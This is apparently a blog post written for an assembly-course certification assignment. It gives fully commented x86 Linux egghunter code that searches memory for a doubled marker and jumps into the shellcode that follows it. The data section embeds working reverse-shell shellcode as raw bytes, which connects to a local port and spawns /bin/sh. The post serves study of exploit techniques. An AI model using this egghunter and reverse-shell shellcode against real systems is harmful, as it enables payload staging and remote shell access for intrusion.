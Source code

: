 ```yaml
---
layout: post
title:  SLAE32 Assignment 3 - egghunter
excerpt: asm code for my egghunter
---
```

    ; name        : egghunter 
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 3
    ; license     : CC-BY-NC-SA
    ; description : this code will search a string in memory, repeated twice to avoid
    ;               potential false positives, and when found jumps just after it to
    ;               execute following code.
    ;               because this course is about assembly, i'm trying avoid any C code,
    ;               therefore also stage2 will be placed in this file in data section.
    ;
    ; the program starts from address memory 0x08048000 , because i know that .data
    ; places values there, and reads 4 bytes to compare to a known egg
    ; note that in a different scenario, where for example i exploited a buffer overflow,
    ; i could've places stage2 at stack page and the seek would be a bit longer
    ;
    ; i also know that not all addresses are readable by the program: that's why i'm
    ; checking if i can read before to compare.
    ;
    ; during the journey i learned about scasd: the op compares edi and eax and is just
    ; 1 byte, when a classic cmp is 2. saving 2 bytes in an egghunter could be lifesaver,
    ; but i'm using cmp anyway here
    ;
    
    global _start
    section .text
    
    exit:
    xor eax,eax
    mov al,0x1
    int 0x80
    
    trap:
    ret
    
    _start:
    ; start by zeroing eax and edx, because better safe than sorry
    xor eax,eax
    xor edx,edx
    ; and because i won't need ebx, and ecx will be completely overwritten by a mov later
    
    ; GUGU will match revshell, little endian.
    ; you can found revshell asm in github repo https://github.com/gulyslae/SLAE32
    mov esi, 0x55475547
    ; LYLY will match writeHelo, little endian
    ;mov esi, 0x594c594c
    
    ; i'm starting from 0x08048000 because i know where to look. i've started from 0x1000
    ; using dl as 0x1 and not 0x0 to avoid null byte
    ; actually i don't needed to zero edx here: i'm mova full 4bytes. in a real shellcode
    ; i probably had to start from 0x1000 as i said and that's why i'd need edx to be 0x0
    mov edx, 0x08047001
    
    nextp:
    ; align page, for this example i would have it 0x08047fff
    or dx, 0xfff
    
    nextb:
    ; and with this inc i'll be at the top of the memory page, which will be 0x08048000
    inc edx
    
    ; inc edx will result in an overflow of our 32bit register as soon as we reach
    ; 0xfffff000 memory segment. by checking OF flag, we know that we reached the end of
    ; the memory: to avoid DoSsing the box, we call a neat exit
    jo exit
    
    ; check if we can read the memory
    ; i'm using sys_access syscall here, that has code 0x21
    ; she needs of course arguments:
    ; eax => sys_access id, 0x21
    ; ebx => pointer to page address
    xor eax, eax
    mov al, 0x21
    lea ebx, [edx+8]
    
    ; do the call
    int 0x80
    
    ; as usual, eax will hold res code. EFAULT, means noaccess, is 0xf2
    cmp al, 0xf2
    ; if we have a fault here, jump to next page by adding 0x1000
    jz nextp
    
    ; search for the egg
    cmp [edx], esi
    jnz nextb
    
    ; search again for 2nd copy of the egg to avoid matching code itself or any other
    ; false positive
    cmp [edx+4], esi
    jnz nextb
    
    ; egg found, jump to shellcode
    lea esi, [edx + 8]
    call trap
    jmp esi
    
    section .data
    ; all shellcode ends with 0x31, 0xC0, 0xB0, 0x01, 0xCD, 0x80 which is my neat exit
    ; looking for EGG GUGU i'm going to receive a revshell on localhost port 65533 by
    ; using the code from 03_revshell_tcp.asm found in https://github.com/gulyslae/SLAE32
    ;revshell: db 0x47,0x55,0x47,0x55,0x47,0x55,0x47,0x55,0x6a,0x66,0x58,0x6a,0x01,0x5b,0x31,0xc9,0x51,0x53,0x6a,0x02,0x89,0xe1,0xcd,0x80,0x89,0xc7,0xb0,0x66,0x5b,0x68,0x7f,0x01,0x01,0x01,0x66,0x68,0x04,0xd2,0x66,0x53,0x89,0xe1,0x6a,0x10,0x51,0x57,0x89,0xe1,0x43,0xcd,0x80,0x87,0xfb,0x6a,0x02,0x59,0xb0,0x3f,0xcd,0x80,0x49,0xb0,0x3f,0xcd,0x80,0x49,0xb0,0x3f,0xcd,0x80,0x31,0xd2,0x52,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x89,0xd1,0xb0,0x0b,0xcd,0x80
    revshell: db  0x47,0x55,0x47,0x55,0x47,0x55,0x47,0x55,0x31,0xc0,0x31,0xdb,0x50,0x40,0x50,0x40,0x50,0x89,0xe1,0xb0,0x33,0x04,0x33,0x43,0xcd,0x80,0x89,0xc6,0x31,0xc0,0x31,0xdb,0x68,0xac,0x10,0xc9,0xa2,0x68,0x7f,0x01,0x01,0x01,0x66,0x68,0xff,0xfb,0x66,0x6a,0x02,0x89,0xe1,0x6a,0x10,0x51,0x56,0x89,0xe1,0xb3,0x03,0xb0,0x33,0x04,0x33,0xcd,0x80,0x31,0xc9,0xb1,0x03,0x89,0xf3,0x31,0xc0,0xb0,0x3f,0x49,0xcd,0x80,0xb0,0x3f,0x49,0xcd,0x80,0xb0,0x3f,0x49,0xcd,0x80,0x51,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x51,0x89,0xe2,0x51,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0x31,0xc0,0xb0,0x01,0xcd,0x80
    ; looking for EGG LYLY i'm just printing Helo string
    writeHelo: db 0x4c,0x59,0x4c,0x59,0x4c,0x59,0x4c,0x59,0x31,0xc0,0x31,0xdb,0x31,0xd2,0x50,0x68,0x48,0x65,0x6c,0x6c,0xb0,0x04,0xb3,0x01,0x89,0xe1,0xb2,0x04,0xcd,0x80,0x31,0xc0,0x31,0xdb,0xfe,0xc0,0xb3,0x05,0xcd,0x80
    
*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
